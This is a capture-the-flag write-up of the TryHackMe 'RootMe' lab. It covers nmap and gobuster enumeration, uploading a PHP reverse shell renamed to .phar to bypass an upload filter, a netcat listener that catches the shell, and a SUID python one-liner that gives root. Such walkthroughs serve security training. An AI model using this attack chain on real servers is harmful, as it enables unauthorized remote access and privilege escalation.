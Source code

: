 # CTF: [RootMe](https://tryhackme.com/room/rrootme)<br/>
## Notes
```
10.10.139.208

scan:
20 
80

found /panel and /uploads

upload php reverse shell
renamed extension from .php to .phar - bypasses file upload check

user.txt:THM{***_***_*_*****}

found /usr/bin/python interesting

python -c 'import os; os.execl("/bin/sh", "sh", "-p")' ---- If the binary has the SUID bit set, 
it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. 
If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

root.txt:THM{*********_**********}
```
## nmap scan
```
# Nmap 7.91 scan initiated Tue Aug 24 02:20:22 2021 as: nmap -A -oN nmap.txt -v 10.10.139.208
Nmap scan report for 10.10.139.208
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/24%OT=22%CT=1%CU=44302%PV=Y%DS=3%DC=T%G=Y%TM=6124578
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O
OS:3=NNT11%O4=M505ST11NW7%O5=M505ST11NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3
OS:=1EA%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IP
OS:L=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 14.452 days (since Mon Aug  9 15:30:25 2021)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   0.02 ms   172.17.0.1
2   176.86 ms 10.8.0.1
3   177.03 ms 10.10.139.208

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 24 02:20:54 2021 -- 1 IP address (1 host up) scanned in 32.47 seconds
```
## Hidden directories
According to our nmap scan, port 80 is open. Navigate to the address on a browser, look for hidden directories.
```
└─# gobuster dir -u 10.10.139.208 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x txt,html,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.139.208
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
2021/08/25 18:55:38 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.139.208/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.139.208/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.139.208/js/]     
/panel                (Status: 301) [Size: 314] [--> http://10.10.139.208/panel/]
```
`/panel` and `/uploads` look intersting. Let's investigate both directories.
## /panel
![thm_rootme_panel](https://user-images.githubusercontent.com/59718043/130849406-5938f5d6-7a99-4072-b2b4-eb86ee234718.png)
## /uploads
![thm_rootme_uploads](https://user-images.githubusercontent.com/59718043/130849622-c0bd32a5-7eb7-41ed-97c1-a423daee0533.png)
## Reverse Shell
Ideally, we could upload a file that will run a reverse shell connection, giving us shell access to the site. By running gobuster we found out that
the server runs PHP (index.php), this means we can upload [pentestmonkey's](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
PHP reverse shell script. Download the file and edit the script accordingly (change the IP and port number lines).
```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
Save the file as `shell.phar`. We need to change the file extension from `.php` to `.phar` in order to bypass the file extension upload check.<br/><br/>
In `/panel`, upload the file. Now the script should appear in `/uploads`.<br/><br/>
Set up a netcat listener on your machine:
```
nc -nvlp 1234
```
Activate the shell script in `/uploads`.
<br/><br/>
By now you should get a connection on your netcat listener.
```
Listening on 0.0.0.0 1234
Connection received on 10.10.139.208 58738
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:18:36 up 2 min,  0 users,  load average: 1.47, 1.08, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Navigate to `/var/www` to view the first flag.

## Privilege escalation
Enumerate SUID binary files.
```
find / -perm -u=s -type f 2>/dev/null
```
`/usr/bin/python` looks interesting. Head over to [gtfobins](https://gtfobins.github.io/gtfobins/) to look for commands that we can use to abuse this vulnerability.
<br/><br/>
Execute this command to obtain root privilege.
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Navigate to `/root` to view the root flag.

